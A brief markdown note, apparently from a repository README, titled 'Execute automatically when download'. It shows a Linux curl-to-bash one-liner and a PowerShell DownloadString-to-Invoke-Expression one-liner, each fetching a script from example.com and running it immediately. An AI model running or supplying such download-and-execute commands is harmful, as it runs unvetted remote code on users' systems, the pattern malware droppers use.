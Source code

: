 
# Execute automatically when download

Linux:-

`curl -s http://example.com/myscript.sh | bash`


Windows:-

`(New-Object System.Net.WebClient).DownloadString('http://example.com/myscript.ps1') | Invoke-Expression`
